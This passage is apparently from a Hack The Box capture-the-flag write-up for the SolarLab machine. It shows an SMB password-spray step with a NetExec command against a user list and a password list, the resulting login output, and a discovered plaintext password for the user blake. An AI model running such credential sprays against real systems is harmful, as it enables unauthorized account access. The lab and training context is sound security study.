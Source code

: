 ![](/assets/obsidian/78fd080591deb9e62a4f19538ffa0b9a.png)

## Shell as blake

### 445 - SMB : Password spray

- Found `blake`'s credential : `ThisCanB3typedeasily1@`

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ nxc smb $(pt get rhost) -u users.lst -p passwords_xlsx.txt --continue-on-success
SMB         10.129.171.222  445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Administrator:al;ksdhfewoiuh STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Guest:al;ksdhfewoiuh STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [+] solarlab\DefaultAccount:al;ksdhfewoiuh
SMB         10.129.171.222  445    SOLARLAB         [+] solarlab\WDAGUtilityAccount:al;ksdhfewoiuh
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\blake:al;ksdhfewoiuh STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\openfire:al;ksdhfewoiuh STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Administrator:dkjafblkjadsfgl STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Guest:dkjafblkjadsfgl STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\blake:dkjafblkjadsfgl STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\openfire:dkjafblkjadsfgl STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Administrator:d398sadsknr390 STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Guest:d398sadsknr390 STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\blake:d398sadsknr390 STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\openfire:d398sadsknr390 STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Administrator:ThisCanB3typedeasily1@ STATUS_LOGON_FAILURE
SMB         10.129.171.222  445    SOLARLAB         [-] solarlab\Guest:ThisCanB3typedeasily1@ STATUS_LOGON_FAILURE
```